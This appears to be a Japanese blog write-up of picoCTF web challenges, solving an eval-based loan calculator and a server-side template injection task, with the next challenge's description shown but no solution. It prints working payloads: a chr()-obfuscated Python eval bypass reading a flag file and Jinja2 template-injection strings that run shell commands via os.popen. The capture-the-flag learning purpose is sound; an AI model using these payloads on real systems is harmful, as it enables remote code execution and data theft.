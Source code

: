 
## 3v@l
> ABC Bank's website has a loan calculator to help its clients calculate the amount they pay if they take a loan from the bank. Unfortunately, they are using an eval function to calculate the loan. Bypassing this will give you Remote Code Execution (RCE). Can you exploit the bank's calculator and read the flag?

サイトにアクセスしてみると![スクリーンショット 2025-03-08 110505.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/3810599/2c5cd961-9c0b-4405-8c79-f577f632f983.png)

いつも通り中身を見ると
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/3810599/fee86786-7bdb-44a5-836b-33bfd8198683.png)
ヒントから/flag.txtにあることがわかったので、
サニタイジングを回避したうえで
```
eval("open(flag.txt).read()")
```
を実行したい
ということで、
```
open(chr(47)+'flag'+chr(46)+'txt').read()
```
を実行してあげるとフラグゲット
> picoCTF{D0nt_Use_Unsecure_f@nctionsa4121ed2}

## SSTI1
>I made a cool website where you can announce whatever you want! Try it out!
I heard templating is a cool and modular way to build web apps! Check out my website here!

![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/3810599/56b7409e-1650-4878-bdf7-2e2d9981b0dd.png)

https://blog.hamayanhamayan.com/entry/2021/12/15/225142

を参考に
```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -a').read()}}
```
でディレクトリ探索
![image.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/3810599/333e4b21-7519-4692-bc62-53f63acd7df7.png)

```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```
でフラグゲット
> picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_3066c7bd}

## n0s4n1ty 1
> A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission, should you choose to accept it, is to navigate to the provided web page and locate the file upload area. Your ultimate goal is to find the hidden flag located in the /root directory.
